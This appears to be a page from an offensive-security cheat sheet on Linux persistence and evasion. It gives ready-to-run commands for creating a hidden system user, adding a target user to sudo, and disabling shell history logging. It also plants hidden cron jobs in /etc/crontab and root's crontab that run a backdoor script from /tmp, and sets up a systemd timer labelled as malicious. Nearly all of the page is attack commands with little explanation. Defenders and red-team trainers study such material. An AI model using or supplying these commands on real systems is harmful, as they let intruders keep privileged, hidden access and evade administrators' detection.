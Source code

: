 #### Creating a Hidden User
- **Adds a system user with no home and no login shell:**
	```bash
	useradd -M -s /bin/false -r hidden_user
	```

#### Modifying Existing User Permissions
- **Adds the target user to the sudo group:**
	```bash
	usermod -aG sudo <target_user>
	```

#### Disabling or deleting user logs/history
- **Disable User History:** Prevents the history file from logging shell commands for the current session.
	```bash
	export HISTFILE=/dev/null
	```

# Scheduled Task Evasion

#### Hidden Cron Jobs
- **Creating Hidden Cron Jobs:** Create a cron job for a less visible user account (e.g., `nobody` or a new low-privileged account).
	```bash
	echo "* * * * * nobody /bin/bash /tmp/.hidden_backdoor.sh" >> /etc/crontab
	```
- **Hiding cron jobs using non-standard directories:** Place cron jobs in rarely inspected directories, like `/var/spool/cron/crontabs/`.
    ```bash
    echo "@reboot /bin/bash /tmp/.hidden.sh" >> /var/spool/cron/crontabs/root
    ```

#### Job Scheduler and Timer Manipulation
- **Create `systemd` timers for stealthy execution:** Timers can run jobs at specified intervals and are less commonly inspected compared to cron.
    ```bash
    [Unit]
    Description=Malicious Timer Task

    [Timer]
    OnBootSec=5min
    OnUnitActiveSec=10min

    [Install]
    WantedBy=timers.target
    ```
- **Install the timer:**
	```bash
	systemctl enable <malicious_timer>.timer
	```
